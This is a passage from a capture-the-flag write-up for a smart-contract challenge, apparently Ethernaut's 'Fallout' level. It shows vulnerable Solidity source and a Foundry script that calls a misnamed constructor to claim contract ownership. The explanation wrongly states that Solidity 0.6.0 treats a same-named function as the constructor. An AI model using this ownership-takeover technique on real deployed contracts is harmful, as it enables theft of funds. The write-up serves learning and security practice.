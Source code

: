 ```solidity
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

**Goal**: Claim the ownership of the contract

**Explanation:**

1. In Solidity 0.6.0, the constructor is the function with the same name as the contract. 
2. But in the given challenge, the contract name (`Fallout`) and the function name(`Fal1out`) are not the same.
3. So, we can call this function directly.

**Level2Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Level2.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level2Sol is Script{
    
    Fallout public level2 = Fallout(0xaEb939E61726c0f9d0078c3FC1C1508ABa6C26C4);
    function run() external{
        
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Owner before",level2.owner());
        level2.Fal1out();
        console.log("Owner after",level2.owner());
        vm.stopBroadcast();
    }
}

```
